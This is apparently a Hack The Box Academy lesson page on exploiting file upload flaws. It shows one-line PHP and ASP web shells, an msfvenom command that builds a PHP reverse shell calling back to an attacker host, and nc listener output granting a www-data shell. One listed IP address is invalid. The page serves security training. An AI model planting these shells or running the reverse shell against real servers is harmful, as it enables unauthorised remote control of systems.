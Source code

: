 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/136/section/1261
// Platform Version: V1
// Module ID: 136
// Module Name: File Upload Attacks
// Module Difficulty: Medium
// Section ID: 1261
// Section Title: Upload Exploitation
// Page Title: Hack The Box - Academy
// Page Number: 3
-->

# Upload Exploitation

**Module Name:** File Upload Attacks **Page Number:** 3

#### 

#### FILE UPLOAD ATTACKS

# Upload Exploitation

## Web Shells

![https://academy.hackthebox.com/storage/modules/136/file_uploads_php_bash.jpg](https://academy.hackthebox.com/storage/modules/136/file_uploads_php_bash.jpg)

## Writing Custom Web Shell

``` php
<?php system($_REQUEST['cmd']); ?>
```

![https://academy.hackthebox.com/storage/modules/136/file_uploads_php_manual_shell.jpg](https://academy.hackthebox.com/storage/modules/136/file_uploads_php_manual_shell.jpg)

``` asp
<% eval request('cmd') %>
```

## Reverse Shell

``` php
$ip = 'OUR_IP';     // CHANGE THIS
$port = OUR_PORT;   // CHANGE THIS
```

``` shell-session
ndefstathiou@htb[/htb]$ nc -lvnp OUR_PORT
listening on [any] OUR_PORT ...
connect to [OUR_IP] from (UNKNOWN) [188.166.173.208] 35232
# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Generating Custom Reverse Shell Scripts

``` shell-session
ndefstathiou@htb[/htb]$ msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
...SNIP...
Payload size: 3033 bytes
```

``` shell-session
ndefstathiou@htb[/htb]$ nc -lvnp OUR_PORT
listening on [any] OUR_PORT ...
connect to [OUR_IP] from (UNKNOWN) [181.151.182.286] 56232
# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# 

# 

#### Questions

####